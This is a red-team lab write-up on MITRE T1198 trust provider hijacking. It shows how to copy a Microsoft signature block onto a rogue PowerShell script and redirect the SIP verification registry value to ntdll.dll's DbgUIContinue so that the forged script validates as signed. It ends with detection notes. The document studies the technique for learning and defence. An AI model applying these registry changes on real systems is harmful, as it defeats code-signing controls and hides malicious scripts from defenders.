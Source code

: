 ```yaml
---
layout: post
title: "2024-06-18-t1198 trust provider hijacking"
date: 2024-06-18
categories: persistence
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1198-trust-provider-hijacking/
---
```


---
description: 'Defense Evasion, Persistence, Whitelisting Bypass'
---

# SIP & Trust Provider Hijacking

In this lab, I will try to sign a simple "rogue" powershell script `test-forged.ps1` that only has one line of code, with **Microsoft's** certificate and bypass any whitelisting protections/policies the script may be subject to if it is not signed.

## Execution

The script that I will try to sign:

![](../../.gitbook/assets/trust-ps-file.png)

Just before I start, let's make sure that the script is not signed by using a `Get-AuthenticodeSignature` cmdlet and `sigcheck` by SysInternals:

![](../../.gitbook/assets/trust-not-signed.png)

In order to sign the script with Microsoft's certificate, we need to first find a native Microsoft Signed PowerShell script. I used powershell for this:

```csharp
Get-ChildItem -Path C:\*.ps* -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "# SIG # Begin signature block"
```

![](../../.gitbook/assets/trust-find-signed.png)

I chose one script at random and simply checked if it was signed - luckily it was:

```bash
type C:\Windows\WinSxS\x86_microsoft-windows-m..ell-cmdlets-modules_31bf3856ad364e35_10.0.16299.15_none_c7c20f51cd336675\Wdac.psd1
```

![](../../.gitbook/assets/trust-check-if-signing-block-exists.png)

Let's copy the Microsoft signature block to my script:

![](../../.gitbook/assets/trust-script-with-ms-signing-code.png)

Now let's modify registry at:

```text
HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{603BCC1F-4B59-4E08-B724-D2C6297EF351}
```

From:

![](../../.gitbook/assets/trust-from.png)

To:

{% code title="DLL" %}
```csharp
C:\Windows\System32\ntdll.dll
```
{% endcode %}

{% code title="FuncName" %}
```text
DbgUIContinue
```
{% endcode %}

![](../../.gitbook/assets/trust-to.png)

Now, let's launch a new powershell instance \(for the registry changes to take effect\) and check the signature of the forged script - note how it now shows as signed, verified and valid:

![](../../.gitbook/assets/trust-signed.png)

## Observations

Monitoring the following registry keys/values helps discover this suspicious activity:

![](../../.gitbook/assets/trust-sysmon1.png)

![](../../.gitbook/assets/trust-sysmon2.png)

## References

For all the registry keys/values that should be used as a baseline, please refer to the original research whitepaper by Matt Graeber:   
[SpecterOps Subverting Trust inWindows](https://specterops.io/assets/resources/SpecterOps_Subverting_Trust_in_Windows.pdf)

{% embed url="https://attack.mitre.org/wiki/Technique/T1198" %}

{% embed url="https://www.youtube.com/watch?v=wxmxxgL6Nz8" %}

{% embed url="https://pentestlab.blog/2017/11/06/hijacking-digital-signatures/" %}

{% embed url="http://ultimate-sysadmin-fanboy.blogspot.com/2015/06/unable-to-renew-certificate-via.html" %}

{% embed url="https://blogs.msdn.microsoft.com/sqlforum/2011/01/02/walkthrough-request-a-digital-certificate-from-certificate-server-or-create-a-testing-digital-certificate-to-sign-a-package/" %}

{% embed url="https://www.youtube.com/watch?v=WrHTJQovDoY" %}

{% embed url="https://www.hanselman.com/blog/SigningPowerShellScripts.aspx" %}

{% embed url="https://github.com/netbiosX/Digital-Signature-Hijack" %}

@spotheplanet
